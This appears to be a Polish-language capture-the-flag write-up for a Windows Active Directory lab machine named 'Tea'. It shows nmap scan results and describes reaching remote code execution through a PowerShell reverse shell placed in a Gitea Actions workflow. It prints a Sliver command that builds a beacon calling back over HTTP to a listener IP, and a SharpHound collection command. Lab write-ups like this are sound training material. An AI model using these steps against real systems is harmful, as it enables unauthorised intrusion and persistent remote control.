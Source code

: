 # Tea
Windows, Medium, created by **kozie**

![tea_slide](https://github.com/user-attachments/assets/1d64456c-c18d-4db6-baed-de06eb17eed7)

```
Nmap scan report for 10.10.162.37
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 12:22:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
51834/tcp open  msrpc         Microsoft Windows RPC
62537/tcp open  msrpc         Microsoft Windows RPC
64037/tcp open  msrpc         Microsoft Windows RPC
64039/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64040/tcp open  msrpc         Microsoft Windows RPC
64051/tcp open  msrpc         Microsoft Windows RPC


Nmap scan report for 10.10.162.38
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
3000/tcp  open  ppp?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Issuer: commonName=SRV.tea.vl
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  unknown
49670/tcp open  msrpc         Microsoft Windows RPC

```

nice z smb null i guest.
nic z ldapa.
na 3000 mamy gitea.

![{3FB20AF9-7422-4ED7-A495-A7EE71B75837}](https://github.com/user-attachments/assets/6e401bfa-8b32-447b-b04f-68d7cea4907f)

robimy usera.

![{0288ED8E-C6EA-4421-B4D8-4BBFB6D5B755}](https://github.com/user-attachments/assets/eec0a41f-3cdd-40c8-b1f3-aa6c343444ea)

wygląda na to, że to będzie rce przez gitea runners

zrobię krok po kroku.

Create a new repo

![{5621793F-60A6-491C-AD2E-689A5DCAAD4D}](https://github.com/user-attachments/assets/bec20240-5cf4-4067-a792-5ef65a3fc02e)

![{91C18823-F149-42AF-B21B-4F6E9F5DD289}](https://github.com/user-attachments/assets/4a0da2c0-e8ed-4895-904e-35ec552e6a74)

stworzyło się.

w settings klikamy `Enable Repository actions`

![{F32DCB5D-D9EE-49B6-95F8-D7C85BC29F7B}](https://github.com/user-attachments/assets/c739d176-017f-4fef-8920-8bcc822caec7)

teraz troche `docsów` [https://blog.gitea.com/feature-preview-gitea-actions/](https://blog.gitea.com/feature-preview-gitea-actions/)

![{C20DE314-D141-4A81-ACF5-0FC79EFD4464}](https://github.com/user-attachments/assets/072acc29-2b3d-4de2-88fe-815a87bf1cb6)

o i mamy nasz payload (ale pamiętamy, że to windows)

generuję sobie revshella w powershellu

![{A377889B-7A21-4443-8C15-8E00B8175368}](https://github.com/user-attachments/assets/2e3570b5-8e4b-4804-8a0f-78231837364d)

![{E813ACD1-40F6-4CEE-90B8-8D9462FD5EAF}](https://github.com/user-attachments/assets/52ae54a0-790c-4b9d-ab9f-d12ae93a5aaf)

mniej więcej coś takiego. Teraz commit changes

![{47B8C10F-CE93-4202-9B8D-19F536B1DFC9}](https://github.com/user-attachments/assets/eff71693-f33f-4a96-acd1-72d11285d718)

i mmay shella po ~10sek

![{3883BA25-4D3C-4BEA-8CFD-C3E65510C34D}](https://github.com/user-attachments/assets/6e2ccf27-2e9d-41c5-8cbb-360fd85d0f75)

już myślałem, że fajny shell będzie, ale.. port 22 nie jest otwarty :/

![{09F838FD-C64B-44D6-8B65-07A38A900AEA}](https://github.com/user-attachments/assets/fb31869c-62c6-411a-916b-84c7de7c7c10)

ale chociaż flagę dali

![{091F78EF-5662-467D-9831-0509621C3DAA}](https://github.com/user-attachments/assets/6fa51966-36ad-4e1b-8cc2-42b6ae6fa748)

te grupki ciekawe całkiem.

![{3B3A3B61-C126-4686-9596-358494B15A85}](https://github.com/user-attachments/assets/31b5559e-bdb3-4f62-9e5f-894aca334c70)

psexec też ciekawe, że widzimy tutaj (ale laps ciekawsze)

![{39A58CE0-01D4-4C4D-8D58-6C40CA2B1FC7}](https://github.com/user-attachments/assets/2e955980-5b28-4f79-9f03-05da1943dc74)

z ciekawosci wziąłem hash i sprawdzam czy hasło nie wystęuje w rockyou
- nie występuje

Ostatnio trochę mocniej w redteam idę i bawię się sliverem więc tutaj użyjemy slivera zamiast ładować binarki na maszynkę.
```
generate beacon --seconds 5 --jitter 3 --os windows --arch amd64 --format EXECUTABLE --http 10.8.4.124:443 --name tea --save ./beacon.exe -G 
```
(to leci kilka minut. Jak chcesz szybciej to daj sobie --skip-symbols)

![{1FEA1625-9874-4853-87F3-60A89544B0D9}](https://github.com/user-attachments/assets/3ba8bf74-1525-429e-8b81-1037052d6e5b)

![{A1EAA0A4-A09D-4AAA-84C8-5B66F214A021}](https://github.com/user-attachments/assets/1e53e662-f6a1-4a14-b3df-95ac0d67dda6)

i mamy to

![{AEDBCEB7-A851-45D5-A9DA-01C875DA0839}](https://github.com/user-attachments/assets/3f782e27-9a0e-4076-9b32-bca914b1ec7d)

`sharp-hound-4 -i -s -t 120 -- -c all`

![{D5E53598-B2B1-43BB-B647-FC35C9916F4B}](https://github.com/user-attachments/assets/5a8a9f8e-b827-4ff5-b2fc-4614f647fdcb)

![{65326E1F-3156-41F5-9D57-1115049B6BA8}](https://github.com/user-attachments/assets/b52a7459-5007-49bf-8163-6a7b95650488)

chyba mam za nowego bloodhound :/


